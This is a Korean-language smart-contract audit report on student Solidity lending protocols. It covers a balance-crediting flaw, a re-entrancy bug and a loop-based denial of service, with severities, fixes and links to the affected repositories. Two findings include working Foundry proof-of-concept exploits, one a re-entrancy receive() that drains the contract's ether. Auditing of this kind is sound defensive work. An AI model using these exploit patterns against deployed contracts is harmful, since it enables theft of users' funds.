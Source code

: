 ## 1. initializeLendingProtocol 함수 구현 오류

### 설명
[DreamAcademyLending.sol 127-128행](https://github.com/dlanaraa/Lending_solidity/blob/55071b255a24d87517629b1d37672bc4ab580acc/src/DreamAcademyLending.sol#L127-L128)에서 특정 account에 대한 잔고를 보관하는 변수인 _depositETH와 _depositUSDC의 값을 동시에 누적시키고 있어서

실제로는 address(0x0) 의 reserve만 보냈더라도 잔고에는 _depositUSDC까지 올라가는 결과가 발생하여, withdraw함수에서 인출 가능합니다.

```
function testWithdrawAtt() external {
    dreamOracle.setPrice(address(0x0), 1 ether);
    dreamOracle.setPrice(address(usdc), 1 ether);

    usdc.transfer(address(lending), 1000 ether);
    lending.initializeLendingProtocol{value: 1000 ether}(address(usdc));

    // 강제로 0으로 만듬.
    vm.deal(address(this), 0 ether);
    usdc.transfer(user1, usdc.balanceOf(address(this)));

    console.log("before withdraw eth: %d", address(this).balance);
    console.log("before withdraw usdc: %d", usdc.balanceOf(address(this)));

    lending.withdraw(address(usdc), 1000 ether);
    lending.withdraw(address(0x0), 1000 ether);

    console.log("after withdraw eth: %d", address(this).balance);
    console.log("after withdraw usdc: %d", usdc.balanceOf(address(this)));
}
```

### 파급력
심각도는 Critical로써 사용자는 ether 혹은 usdc만 initializeLendingProtocol함수를 통해 실제 예치하지 않은 컨트랙트 내의 다른 토큰을 withdraw 할 수 있게되거나 borrow를 통해 비정상적으로 다른 토큰을 빌려갈 수 있습니다.

### 해결방안
해당 함수가 external 이기때문에 함수 내부에서 require로 컨트랙트의 admin 만 호출 가능하게하고, 그게 아니면 실제 입금한 자산에 대해서만 잔고를 올리도록 해야합니다.

### 해당 취약점 발견된 목록
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L44)

### 스크린샷
<img width="560" alt="image" src="https://user-images.githubusercontent.com/127647300/228133955-fbd62f72-eae3-49dc-a64f-29262483ba8e.png">


## 2. withdraw에서 call 사용하여 ether 반환할때 re-entrancy 취약점

### 설명
[DreamAcademyLending.sol 130행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)에서 call을 사용하여 ether를 전송하는데, 대상 account가 CA 인경우에 해당 CA에 구현된 receive에서 여러번 withdraw를 호출하면 Lending contract의 ether잔고를 (특정 account가 입금한 양보다 더 많이)인출 할 수 있다.

```
function testWithdrawAtt() external {
    vm.deal(address(lending), 30 ether); // 비교를 위해 Lending컨트랙트의 잔고를 30으로 맞춰둔다.
    lending.deposit{value: 1 ether}(address(0x0), 1 ether); // 공격 CA는 단 1 ether만 deposit
    vm.deal(address(this), 0 ether);
    console.log("Lending: balance before withdraw: %d", address(lending).balance); // 원래있던 30 ether + 공격자 1 ether deposit 해서 31 ether
    lending.withdraw(address(0x0), 1 ether);
    console.log("Lending: balance after withdraw: %d", address(lending).balance); // 0 ether
    console.log("Attacker: balance after withdraw", address(this).balance); // 31 ether
}

receive() external payable {
    if(address(lending).balance >= 1 ether){
        lending.withdraw(address(0x0), 1 ether);
    }
}
```

### 파급력

심각도는 Critical로써 공격자가 Lending 컨트랙트의 모든 ether 잔고를 할 수 있거나 대출을 repay하지 않고 담보를 인출해 갈 수 있습니다.

### 해결방안
withdraw 함수 구현을 Checks Effects Interaction Pattern으로 변경해야합니다. [133행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L133)을 129행과 130행 사이로 이동시키면 됩니다.

### 해당 취약점 발견된 목록
* [Namryeong-Kim/Lending_solidity](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L280)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L207)

### 스크린샷
![image](https://user-images.githubusercontent.com/127647300/228128932-b8e8d5de-dd51-4d83-b059-a6169e8b7de7.png)


## 3. 서비스 거부 공격
### 설명
사용자 수 만큼 for loop(while loop) 을 돌아야할때, 공격자가 가스비를 많이 소모하게 하여 결국에 컨트랙트의 특정 기능(for loop이 있는)을 사용하지 못하게하거나 가스비가 매우 많이 들게 하는 공격

### 파급력
심각도는 Informational로써 자산이 탈취당하거나 공격자가 설계한 비정상적인 로직이 실행되는건 아니지만 잠재적인 위험 요소라고 판단됩니다.

### 해결방안
상황마다 달라서 명확한 해결책은 없고, 사용자나 공격자의 어떤 행동에 의해 반복문 실행 회수가 쉽게 증가하지 않는 구조가 가능할지 검토해봐야합니다.

### 해당 취약점 발견된 목록
* [Gamj4tang/Lending_solidity](https://github.com/Gamj4tang/Lending_solidity/blob/25387e051e05d5a3022425b8d2af366a6d9051bc/src/DreamAcademyLending.sol#L251)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L334)
* [jun4n/Lending_solidity](https://github.com/jun4n/Lending_solidity/blob/fd3baab9a9c6384e6dfb767c23ce2f81cc1de913/src/DreamAcademyLending.sol#L86)
* [Sophie00Seo/Lending_solidity](https://github.com/Sophie00Seo/Lending_solidity/blob/e9ab337f8c8bb629c66613ef050b7533cbeee651/src/DreamAcademyLending.sol#L76)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L50)
